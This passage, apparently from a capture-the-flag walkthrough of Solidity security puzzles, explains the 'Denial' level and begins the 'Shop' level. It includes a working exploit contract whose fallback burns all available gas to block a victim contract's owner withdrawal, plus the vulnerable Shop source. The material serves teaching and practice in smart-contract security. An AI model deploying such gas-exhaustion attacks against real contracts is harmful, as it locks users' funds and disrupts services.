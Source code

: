 ```sol

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
A call is made to the partner's address, and then transfer to owner. We cannot use revert to stop the execution since call just returns the data. Here its not being validated so the output from the call doesn't change the behaviour of the further code. But here the gas limit is not specified in the call. So in order to stop the execution we could simply use all the available gas, which eventually stops the code execution due to out of gass error. 

> #### Solution
> We know that storing data in the storage is expensive, we use up all the gas by doing the same thing. 
> ```sol
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.8.0;
> 
> contract denExp {
>     uint j = 0;
>     uint g = 0;
>     fallback() external payable {
>         uint p = 10;
>         for (uint i = 11; i > p ; i++) {
>             j = j + 1;
>             g = g ** i;
>         }
>     }
> }
>  ```
 
<hr>

## 21 Shop
We need to set the price to lower from its original value.
#### Source:
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```
